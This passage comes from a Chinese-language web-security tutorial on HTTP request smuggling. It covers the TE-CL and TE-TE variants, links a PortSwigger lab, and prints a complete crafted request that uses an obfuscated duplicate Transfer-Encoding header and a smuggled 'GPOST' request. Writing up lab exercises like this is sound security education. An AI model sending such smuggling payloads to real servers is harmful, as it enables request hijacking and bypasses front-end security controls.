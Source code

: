 ![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20200915145641.png-water_print](assets/1699409511-3dc90cba248bb826fece2657de784818.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20200915145641.png-water_print")

由于前端服务器处理 `Transfer-Encoding`，当其读取到 `0\r\n\r\n`时，认为是读取完毕了，此时这个请求对代理服务器来说是一个完整的请求，然后转发给后端服务器，后端服务器处理 `Content-Length` 请求头，当它读取完 `5c\r\n` 之后，就认为这个请求已经结束了，后面的数据就认为是另一个请求了，也就是：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>``` | ```http<br>GPOST / HTTP/1.1<br>Content-Type: application/x-www-form-urlencoded<br>Content-Length: 15<br><br>x=1<br>0<br>``` |

### [](#25-te-te)2.5 TE-TE

`TE-TE`，也很容易理解，当收到存在两个请求头的请求包时，前后端服务器都处理 `Transfer-Encoding` 请求头，这确实是实现了 RFC 的标准。不过前后端服务器毕竟不是同一种，这就有了一种方法，我们可以对发送的请求包中的 `Transfer-Encoding` 进行某种混淆操作，从而使其中一个服务器不处理 `Transfer-Encoding` 请求头。从某种意义上还是 `CL-TE` 或者 `TE-CL`。

Lab地址：[https://portswigger.net/web-security/request-smuggling/lab-ofuscating-te-header](https://portswigger.net/web-security/request-smuggling/lab-ofuscating-te-header)

构造数据包：

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>``` | ```http<br>POST / HTTP/1.1\r\n<br>Host: ac4b1fcb1f596028803b11a2007400e4.web-security-academy.net\r\n<br>User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:56.0) Gecko/20100101 Firefox/56.0\r\n<br>Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n<br>Accept-Language: en-US,en;q=0.5\r\n<br>Cookie: session=Mew4QW7BRxkhk0p1Thny2GiXiZwZdMd8\r\n<br>Content-length: 4\r\n<br>Transfer-Encoding: chunked\r\n<br>Transfer-encoding: cow\r\n<br>\r\n<br>5c\r\n<br>GPOST / HTTP/1.1\r\n<br>Content-Type: application/x-www-form-urlencoded\r\n<br>Content-Length: 15\r\n<br>\r\n<br>x=1\r\n<br>0\r\n<br>\r\n<br>``` |
